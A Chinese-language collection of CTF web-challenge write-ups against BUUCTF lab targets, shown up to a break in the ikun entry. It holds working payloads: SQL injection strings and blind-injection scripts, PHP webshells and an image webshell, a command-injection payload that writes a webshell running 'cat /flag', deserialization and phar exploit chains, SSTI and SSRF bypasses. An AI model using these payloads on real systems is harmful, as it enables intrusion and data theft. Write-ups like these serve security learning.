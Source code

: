 # [HCTF 2018]WarmUp  
应该算是我CTF生涯中第一道正式的web题了吧，不得不说首先打开这个网页看见一个滑稽我内心是崩溃的==  
既然啥都没有，那当然是要Ctrl+U看看源代码。  
<img src='1-1.png' width=50%>  
访问source.php  
<img src='1-2.png' width=50%>  
以我羸弱的php知识外加Google发现这里有一个Checkfile，如果发现文件路径($page)在白名单中(包含编码后的)，则直接返回true。  
接着访问hint.php  
<img src='1-3.png' width=50%>  
好像现在没什么卵用
回到刚刚的source.php，我们可以这样绕过：  
<img src='1-4.png' width=50%>  
得到flag

----

# [强网杯 2019]随便注  
这个注入太难顶了，以前做的那些都不叫啥玩意儿。fuzz下发现跳了个语句  
`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
去重修了以下sql发现还有很多语句没有过滤，先来试个`1';show tables#`，可以发现有两个表1919810931114514和words  
```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```  
然后我们查看1919810931114514的内容：
```1';show columns from `1919810931114514`#```
如下
```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```  
查看words的内容：
```1';show columns from `words`#```
如下
```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```  
好吧现在我又看不懂了qaq。不过既然flag在前面那个表，而且把select过滤了，我是真的不知道该怎么操作了。遂看wp，发现有个`prepare`预编译指令。先把```select * from `1919810931114514`;```char化，然后使用`set`指令将char化后的语句弄到一个变量里面，然后是用`prepare`把变量预编译，然后执行。  
payload如下：
```
-1';set @a = CONCAT('se','lect * from `1919810931114514`;');prepare b from @a;EXECUTE b;#
```
获得flag

----
# [HGAME 2020]Cosmos的博客
看见提示说用了git，考虑githack，发现没有什么卵用，冥思苦想后访问`.git/config`，发现GitHub地址，访问后在历史记录中找到flag。

----
# [护网杯 2018]easy_tornado  
一开始就看到三个提示  
```
/flag.txt
/welcome.txt
/hints.txt
```
查看发现内容如下
```
node3.buuoj.cn/file?filename=/flag.txt&filehash=876c24991edc20a61fc400d87f906e58
/flag.txt
flag in /fllllllllllllag

node3.buuoj.cn/file?filename=/welcome.txt&filehash=90dd1edab19fecf7c8b769af3da6ef18
/welcome.txt
render

node3.buuoj.cn/file?filename=/hints.txt&filehash=54f48cbcbf5ea9c0b49720e19d601406
/hints.txt
md5(cookie_secret+md5(filename))
```
看见有render，修改filehash出现错误，链接为
```
node3.buuoj.cn/error?msg=Error
```
msg可控，猜测有模板注入，查资料后发现`handler.settings`储存有`cookie_secret`，于是尝试
```
node3.buuoj.cn/error?msg={{handler.settings}}
```
弹出设置
```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': 'f285519a-1ab3-4870-9180-1a0c5be8eda7'}
```
于是直接构造获得字符串md5加密flag

----
# [SUCTF 2019]EasySQL
看起来又是一个注入，随便输入了几个数字，发现0是没有回显的（好像没有什么卵用）。`1;show tables;`试试，发现有显示表名：
```
Array
(
    [0] => 1
)
Array
(
    [0] => Flag
)
```
然后尝试```1;show columns from `Flag` ```，好吧我知道出题人没这么sb。再来看看数据库`1;show databases;`，发现有点东西：
```
Array
(
    [0] => 1
)
Array
(
    [0] => ctf
)
Array
(
    [0] => ctftraining
)
Array
(
    [0] => information_schema
)
Array
(
    [0] => mysql
)
Array
(
    [0] => p
}
```
似乎也没啥卵用。fuzz了一下，显然是堆叠注入，但发现一大堆的关键字都被过滤了。查看了wp源码里面看到查询语句是`select $post['query']||flag from Flag`，可以发现这个||是逻辑运算符或，答案只能是0/1，所以要查询的话，就需要把||的作用去掉，按wp上的做法，用的是
```
1;set sql_mode=PIPES_AS_CONCAT;select 1
```
可以发现语句就变成了
```
select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag
```
`set sql_mode=PIPES_AS_CONCAT;`的意思就是把||视为字符串拼接，然后getflag。  
不过在翻看dalao博客的时候发现了这个东西`select *,1||flag from Flag`，好吧我确实是没有想到还有这种操作的。

----
# [HCTF 2018]admin
好吧，第一次看见这么现代化的题目，着实搞得我比较懵，首先尝试登录admin，无法确定admin是否存在，于是打开注册页面，注册admin，发现有admin账户，然后，然后就不知道怎么搞了qaq。当个正常用户试试注册，然后当然是成功注册，就没有然后了，放弃这题。
>更新，后来看见buu里面就这个题在前面空着感觉很不爽，于是又来做一做。  
打开index页面html有注释：
```
<!-- you are not admin -->
```
好吧我知道不是admin qaq。在change页面发现了这个：
```
<!-- https://github.com/woadsl1234/hctf_flask/ -->
```
终于有点思绪了啊啊啊啊。clone下来，出题人竟然也是用的vscode。

----
# [强网杯 2019]高明的黑客
一打开发现了一大堆奇怪的源码，然后发现了有一大堆的system，不过执行条件看得我很懵好吗
```
if('V8dfwnVA5' == 'n3Ofh5nSW')
system($_POST['V8dfwnVA5'] ?? ' ');
```
这样的东西是什么鬼啊，这个还怎么tmd执行。猜测总有可以用的一个webshell，于是，开始暴力。遍历每一个文件的每一个传参位置，总会有正确的一个。用python写个脚本，让它自动跑一跑。（加上了进度条，不然看着总以为没动静）
```
import os
import requests
import re
import progressbar

FilePath = './src/'
files = os.listdir(FilePath)
url = 'http://8e790631-8693-48d7-a070-a30a598d21ca.node3.buuoj.cn/'
p = progressbar.ProgressBar(len(files))
cnt = 0

def get_params(name):
    ans = []
    name = FilePath + name
    phpfile = open(name, 'r')
    get = re.compile(r"GET\['(.+?)'\]")
    post = re.compile(r"POST\['(.+?)'\]")
    getnum = re.findall(get, phpfile.read())
    postnum = re.findall(post, phpfile.read())
    ans.append(getnum)
    ans.append(postnum)
    return ans

def send(params, filename):

    ans1 = ''
    ans2 = ''

    for param_get in params[0]:
        get = requests.get(url + filename + '?' + param_get + '=cat /flag')
        ans1 = re.findall(r'flag*', get.text)
        if ans1 != []:
            return param_get

    for param_post in params[1]:
        post = requests.post(url + filename, data={param_post: 'cat /flag'})
        ans2 = re.findall(r'flag*', post.text)
        if ans2 != []:
            return param_post
    
    return False

if __name__ == '__main__':
    for i in files:
        try:
            params = get_params(i)
            ans = send(params, i)
            if ans != False:
                print('php file is:' + i + ' and the param is:' + ans)
                exit()
            cnt += 1
            p.update(cnt)
        except:
            pass
```
成功getflag

----
# [RoarCTF 2019]Easy Calc
一打开发现是一个计算器，查看源码后发现有一个`calc.php`，并且传入了一个参数`num`来实现计算功能。代码如下：
```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```
明确的是要绕过检测，那我们使用
```
calc.php? num=var_dump(scandir(chr(47)))
```
加一个空格，可以使get得到为有空格的变量，而解析的时候变成没有空格的变量。过滤了目录符号，我们使用chr(47)来绕过。可以发现目录结构如下：
```
array(24) { 
    [0]=> string(1) "." 
    [1]=> string(2) ".." 
    [2]=> string(10) ".dockerenv" 
    [3]=> string(3) "bin" 
    [4]=> string(4) "boot" 
    [5]=> string(3) "dev" 
    [6]=> string(3) "etc" 
    [7]=> string(5) "f1agg" 
    [8]=> string(4) "home" 
    [9]=> string(3) "lib" 
    [10]=> string(5) "lib64" 
    [11]=> string(5) "media" 
    [12]=> string(3) "mnt" 
    [13]=> string(3) "opt" 
    [14]=> string(4) "proc" 
    [15]=> string(4) "root" 
    [16]=> string(3) "run" 
    [17]=> string(4) "sbin" 
    [18]=> string(3) "srv" 
    [19]=> string(8) "start.sh" 
    [20]=> string(3) "sys" 
    [21]=> string(3) "tmp" 
    [22]=> string(3) "usr" 
    [23]=> string(3) "var" 
}
```
发现有一个`f1agg`，于是查看：
```
/calc.php?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

----
# [SUCTF 2019]CheckIn
看题目像是一道签到题==。打开发现是一个文件上传的页面。尝试上传一个php文件，显而易见的是会显示非法的。  
于是我们准备一个一句话木马，修改文件后缀后传入，文件名为`test.ppp`
```
<?php eval(@$_GET['a']); ?>
```
好吧这个签到题并没有我想的这么简单，提示了
```
<? in contents!
```
看起来是对文件内容进行了过滤。所以我们随便整点东西进去，发现有提示：
```
exif_imagetype:not image!
```
好吧，看起来要加一个图像文件头。`BM`是bmp文件头，加上过后发现上传成功：
```
Your dir uploads/2c67ca1eaeadbdc1868d67003072b481
Your files :
array(4) { 
    [0]=> string(1) "."
    [1]=> string(2) ".."
    [2]=> string(9) "index.php"
    [3]=> string(8) "test.ppp" 
}
```
看起来我们可以准备一个长得像这样的图片马：
```
BM
<script language="php">eval($_GET['a']);</script>
```
由于要使图片马运行，则需要将文件解析为php代码，于是经过查找资料，发现修改`.htaccess`和`.user.ini`可以实现这一点，而经过测试发现这是个nginx，`.htaccess`是apache专用，于是就修改后者。
```
BM
auto_prepend_file=a.jpg
```
这样就可以实现运行每个php文件后都会自动解析a.jpg作为php代码。
然后`var_dump(scandir('/'))`发现存在`/flag`，查看内容，`var_dump(file_get_content('/flag'))`得到flag

----
# [CISCN2019 华北赛区 Day2 Web1]Hack World
看起来是个布尔盲注，进行测试，发现查询成功是true，错误是false，fuzz后发现大部分的语句都没有被过滤，并且空格可用(或者)绕过。  
使用`id=1=1`和`id=1=0`输出不一致进行注入。  
编写脚本：
```
import requests
import string

url = 'http://3a5eb2a7-2181-43b5-8d42-bf30a66184b4.node3.buuoj.cn'
flag = ''

if __name__ == "__main__":
    printablelist = string.printable
    for i in range(1, 50):
        for j in printablelist:
            res = requests.post(url, data={'id': '1=if(ascii(substr((select(flag)from(flag)),%d,1))=%d,1,2)' % (i, ord(j))})
            if 'Hello' in res.text:
                flag += j
                print(flag)
                break
```
得到flag

----
# [De1CTF 2019]SSRF Me
打开看到的是一大堆乱码，看得我一脸懵逼。查看源码后发现这是用flask写的，里面有几个路由
- `/geneSign`可由post和get接受param的文件路径并和scan与secret_key生成一个md5作为签名
- `/De1ta`由cookie接受action和sign，另由post或get接受param，显示action的操作结果
- `/`直接打开就是显示源代码
  
要注意一下的就是里面生成签名只能由`/geneSign`路由生成，但是很显然的发现我们需要生成一个有效的action为read的签名才能对scan得到的文件进行读取得到flag。  
查找资料后发现这是一个典型的哈希长度拓展攻击伪造签名。  
大概意思就是当知道`hash(secret + message)`的值及`secret`长度的情况下，可以推算出`hash(secret + message+padding+m)`。在这里`m`是任意数据，`padding`是`secret`后的填充字节，`message`是之前的已知数据。  
对于本题，我们可以发现，计算签名的方法是`md5(secert_key + param + action)`，我们可以控制的有两个量，`param`和`action`，联系哈希长度攻击的特点，攻击点显然就在最后面的`action`。  
- 已知量：`/geneSign`获得的签名`md5(secert_key + 'flag.txt' + 'scan')`  
- 伪造量：`md5(secert_key + 'flag.txt' + 'scanread')`
  
于是步骤就显而易见了。  
```
hashpumpy.hashpump('ad25170d3a7ea6b2c1d5e5b3c3afd8ca','flag.txtscan','read',16)
#hashpump中，第一个参数是已知的md5，第二个参数是原message，第三个是攻击数据，最后一个是key长度
```
得到flag

----
# [网鼎杯 2018]Fakebook
打开看起来像是一个留言板，随便注册一个账号，发现blog那里只能填链接，于是就填了个baidu.com，之后登录发现，网页里面有一个iframe，但是没有内容qaq。测试了一下admin，竟然注册成功了wdnmd。  
用burpsuite扫了一下，发现有`robots.txt`且存在注入。  
查看robots.txt
```
User-agent: *
Disallow: /user.php.bak
```
发现有源码泄露
```
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
}
```
并且`view.php`页面存在注入。尝试注入时，`union select`会显示hack，于是使用注释符号绕过`union/**/select`。使用`order by`测试出查询有4个字段。注入：
```
-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
```
获得表`users`
```
-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
```
获得列`no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`
```
-1 union/**/select 1,data,3,4 from users where name='123'
```
发现序列化数据`O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:9:"baidu.com";} `。  
使用注入访问`file:///var/www/html/flag.php`
```
-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:7:"abelche";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
得到flag

----
# [极客大挑战 2019]Havefun
f12查看源码即可解题

----
# [极客大挑战 2019]EasySQL
常识题  
```
username=admin
password=1 or 1=1#
```

----
# [RoarCTF 2019]Easy Java
进去是一个登陆页面，先尝试注入，尼玛完全没反应。查看源码后发现有一个`Download?filename=help.docx`，访问没有反应，尝试改为post，得到文件内容，恢复为docx：
```
Are you sure the flag is here? ? ?
```
看起来没啥卵用。查过资料后发现，java里面有一个WEB-INF文件夹，专门放不可直接访问的网页。
```
WEB-INF主要包含一下文件或目录:
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
/WEB-INF/database.properties：数据库配置文件
漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码
```
那我们就先看看这个`/WEB-INF/web.xml`，发现`FlagController`，查看文件`/WEB-INF/classes/FlagController.class`  
得到flag

----
# [极客大挑战 2019]Secret File
burpsuite抓包发现有`secr3t.php`，访问后发现是一个文件查看。使用
```
php://filter/read=convert.base64-encode/resource=flag.php
```
php伪协议绕过，发现flag

----
# [0CTF 2016]piapiapia
打开是一个登陆页面，用御剑扫，发现有`register.php`，`config.php`，用dirscan扫，发现了源码备份文件`www.zip`：
```
static
upload
class.php       #类
config.php      #连接mysql服务器配置
index.php       #登录页面
profile.php     #反序列化加载用户数据
register.php    #注册页面
update.php      #新增用户数据，序列化写入数据库
```
`class.php`中写了一个`user`类继承自`mysql`类，将`config.php`包含，`config.php`里面有连接`mysql`的相关信息，可以发现有个`flag`变量。  
传文件的时候成功传了一个马上去，但是并没有找到解析为php的方法。本题用了序列化，猜测是利用反序列化字符串逃逸读取config中的内容。
```
$profile['phone'] = 12345678901;
$profile['email'] = 'v@v.v';
$profile['nickname'] = 'vc';
$profile['photo'] = 'upload/' . md5($file['test.php']);
serialize($profile);
```
序列化后是
```
a:4:{s:5:"phone";i:12345678901;s:5:"email";s:5:"v@v.v";s:8:"nickname";s:2:"vc";s:5:"photo";s:39:"upload/93bc3c03503d8768cf7cc1e39ce16fcb";}
```
序列化以后，`filter`方法会将`where`替换为`hacker`，刚好多了一个长度。并且`phone`和`email`都是限制死了，只有`nickname`有点操作空间，大概思路就是构造一个带有`where`并且`photo`为`config.php`的字符串提交上去，程序将替换多出来的字符顶替提交上去的`photo`字段。  
这时发现`nickname`有长度限制，我们需要使用数组来绕过`strlen`。  
我们所需要添加的序列化字符串为
```
";}s:5:"photo";s:10:"config.php";}
```
要添加34个字符才能把这一串挤出去，于是就要添加34个where在前面
```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```
得到flag

----
# [极客大挑战 2019]PHP
打开是一个页面：
```
因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯 
```
盲猜是源码泄露，`www.zip`，竟然一下就猜到了，文件如下：
```
class.php
flag.php
index.js
index.php
style.css
```
`index.php`这里也是用到了反序列化。这里的反序列化是直接运行，没有进行任何的判断。于是我们使用反序列化来修改，要注意一下的就是类中的权限问题，对于Public当然名字就没改变，对于Private，格式应该是`%00类名%00属性名`，Protect是`%00*%00属性名`。于是构造payload如下：
```
O:4:"Name":10:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```
得到flag

----
# [极客大挑战 2019]Knife
打开是一个页面
```
我家菜刀丢了，你能帮我找一下么
eval($_POST["Syc"]);
```
显然是一个一句话。用burp直接提交，没反应，尝试菜刀，可以过，对比header后发现需要加上`Content-Type: application/x-www-form-urlencoded`  
得到flag

----
# [SUCTF 2019]Pythonginx
打开就能看见源码。看起来是一个绕过：
```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```
使用了三种方法过滤，找到了一个[资料](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)。
抄到一个脚本：
```
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass


def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False

if __name__=="__main__":
    get_unicode()
```
我们使用`str: Ｃ unicode: \uff23`字符来绕过来查看`/usr/local/nginx/conf/nginx.conf`
```
file://suctf.cＣ/../../../../../usr/local/nginx/conf/nginx.conf
```
然后发现有个
```
file://suctf.cＣ/../../../../../usr/fffffflag
```
得到flag

----
# [CISCN2019 华北赛区 Day1 Web1]Dropbox
打开也是登录页，注入测试后没有反应，于是`dirsearch`扫后台，发现有
```
[09:27:03] 302 -    0B  - /php  ->  login.php
[09:27:03] 400 -  154B  - /%2e%2e/google.com
[09:28:46] 302 -    0B  - /adminphp  ->  login.php                               
[09:32:02] 302 -    0B  - /delete.php  ->  login.php                                                              
[09:33:25] 302 -    0B  - /index.php  ->  login.php                                                            
[09:34:08] 200 -    1KB - /login.php                                                                    
[09:34:43] 302 -    0B  - /myadminphp  ->  login.php            
[09:36:02] 200 -    1KB - /register.php                                                        
[09:36:51] 301 -  185B  - /static  ->  http://8855b362-a6d4-4711-b2c2-ce02a6d410d1.node3.buuoj.cn/static/         
[09:37:35] 302 -    0B  - /upload.php  ->  login.php                                   
[09:37:38] 301 -  185B  - /uploads  ->  http://8855b362-a6d4-4711-b2c2-ce02a6d410d1.node3.buuoj.cn/uploads/
[09:37:38] 403 -  571B  - /uploads/
```
另外还有`download.php`。可以猜测上传文件内容是放在uploads里面。测试上传php文件，失败。更改为gif后缀并加上`GIF89a`文件头上传成功。在burp中修改下载文件为`../../index.php`，把源码统统下载下来：
```
class.php       #三个类
delete.php      #删除文件
download.php    #下载文件
index.php       #
register.php    #
upload.php      #
```
尝试下载系统文件，成功，但是发现download里面专门ban掉了`flag` qaq。  
不过发现类中有魔术方法，`User`类：
```
__construct()
__destruct()
```
只对数据库进行了打开和关闭的操作，无法利用。`FileList`类：
```
__construct()   #创建新对象时运行
__call()        #对象调用的方法不存在时运行
__destruct()    #销毁对象时运行
```
有可控的操作文件的变量，可加以利用。  
payload：
```
<?php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    public function __construct() {
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}

$a = new User();
$a->db = new FileList();

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("exp.txt", "test");
$phar->stopBuffering();
?>
```
要注意的是上传的时候要将phar文件后缀更改为gif，而更改后缀的文件依旧可以被各种函数识别为phar文件，也就是说，是否为phar文件，只取决于文件内容，并且与文件内容的开头也没有关系，下面这样也可以正常运行。
```
文件名：phar.gif
GIF89a<?php xxxxxxx ?>
```
在del的时候在burp里面把filename改为phar://phar.gif即可  
大概思路如下  
1. 利用delete.php中调用的`$file->open()`中含有的`file_exists`触发phar反序列化解析。
2. 使用`User`类的`db`中调用了一次的`close`，将`db`设为`Filelist`类的对象，调用`Filelist`中不存在的`close`方法。
3. `close`方法不存在于`Filelist`，就会自动运行`__call()`方法。
4. `__call`方法的代码就会调用`Filelist`中新建的`File`类`file`对象中，不存在于`Filelist`类中的`close`方法，即调用`File`中的`close`方法。
5. `close`方法中会使用`file_get_contens()`函数，这个函数的返回值会储存在`Filelist`中的`result`里面。
6. `result`又会被`__destruct()`方法显示，得到flag

----
# [极客大挑战 2019]LoveSQL
一看就是个注入，然后使用
```
username = admin
password = 1'or 1=1
```
登陆成功，发现密码是一个字符串，我竟然以为这就是flag，于是提交，现实显然没有这么简单。  
于是测试
```
check.php?username=admin&password=1'or 1=1 order by 4%23
```
可以发现只有三个参数，这里要注意一下`%23`和`#`，后者会报错qaq。
然后联合注入：
```
#测试参数显示
check.php?username=admin&password=1'or 1=1 union select 1,2,3 order by 3 ASC%23

#获取表名
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() order by 2 ASC%23
'geekuser,l0ve1ysq1'

#获取列名
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='geekuser' order by 2 ASC%23
'id,username,password'

#查看username
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(username) from 'l0ve1ysq1' order by 2 ASC%23
'cl4y,glzjin,Z4cHAr7zCr,0xC4m3l,Ayrain,Akko,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,leixiao,flag'

#读取flag
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(password) from l0ve1ysq1 where username='flag' order by 2 ASC%23
'flag{be6b367b-2444-42e2-a40b-0d5e3cf59cd4}'
```
得到flag

----
# [BUUCTF 2018]Online Tool
打开显示源码：
```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
主要的问题出在这两行上面：
```
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
```
`escapeshellarg`函数是将已有的字符串加上单引号，并且将字符串中原有的单引号转义。`escapeshellcmd`函数是对特殊字符进行转义，并对不配对的单引号进行转义。  
所以我们可以直接给命令加上单引号包裹然后传给host。假设要加入的命令为`xxx`，步骤如下：  
1. `escapeshellarg`处理为```'xxx'```
2. 然后为转义的单引号两边的字符串都加上单引号包裹（空的也要加哦）```''\''xxx'\'''```
3. `escapeshellcmd`处理为```''\\''xxx'\\'''```

所以最后执行的命令就是`\\xxx\`，在命令开头的地方加上看空格就可以忽略前面的反斜杠。还要利用的一个东西就是nmap的`-oG`参数，可以写入文件。  
payload：
```
host=' <?php echo `cat /flag`; ?> -oG test.php '
```
查看沙盒test.php，得到flag

----
# [ZJCTF 2019]NiZhuanSiWei
打开是源码：
```
<?php
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit();
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```
可以看见首先要绕过第一个`if`，我们使用`data`协议绕过：
```
text=data:text/plain,welcome to the zjctf
```
然后是第二个绕过，可以发现过滤了flag，尝试访问flag.php发现有这个文件，因此断定flag就在这里，并且看见后面有一个反序列化。
file这里有一个文件包含，使用php伪协议读取php源码。
```
file=php://filter/read=convert.base64-encode/resource=useless.php
```
usless.php源码：
```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```
显然可以看出这是为后面的反序列化准备的，我们使用序列化对其进行利用。
```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
将file修改为useless.php。  
得到flag

----
# [极客大挑战 2019]Http
打开是一个介绍页面，html代码中也没有什么可疑的地方，然后burp扫描，发现了一个Secret.php，打开是一行文字：
```
It doesn't come from 'https://www.Sycsecret.com'
```
好吧这个太明显了，修改header中的Refer为`https://www.Sycsecret.com`即可。  
结果又跳出来一个：
```
Please use "Syclover" browser
```
好吧，修改UA为`Syclover`，但是竟然又跳出来一个
```
No!!! you can only read this locally!!!
```
好吧，修改XFF为`127.0.0.1`。  
得到flag

----
# [CISCN2019 华北赛区 Day1 Web2]ikun
打开是一个购买页面，登录admin，失败，注册用户，所有信息均填a，注册成功。发现注释中有：
```
<!--这题脑洞确实有点大,所以我们留了些hint,请注意!-->
<!--ikun人肉并祭天了潜伏已久黑粉程序员,永远不要惹我们家kunkun!-->
<!--但是这个黑粉头子好像留了很多漏洞,有没有好心人帮我们家kunkun找出漏洞?!-->
```
并且在每一个商品页面都有以下类似标签：
```
<input type="hidden" name="_xsrf" value="2|75356c41|e65c4d433e12b5e371293c8cdd3dd10b|1581594433"/>
```
题目是说要购买的lv6，找了好几页并没有找到lv6，不过访问了以下lv6对应的链接发现是有这个东西的，于是我们想到要写个脚本帮我们找，使用二分法找到最后一页：
```
import requests
import re

url = 'http://b8e0235a-f240-455d-a375-9f4fb9b27e4c.node3.buuoj.cn/shop?page='

for i in range(0, 500):
    url_t = url + str(i)
    res = requests.get(url_t)
    print(i)
    if '/static/img/lv/lv6.png' in res.text:
        print("ans:%d" % i)
        break
```
找到lv6是在180页，传说中的lv6果然贵得一p，不过发现有个折扣券，并且cookie里面有很多东西，于是猜测是更改cookie修改价格或者折扣来完成购买操作的
```
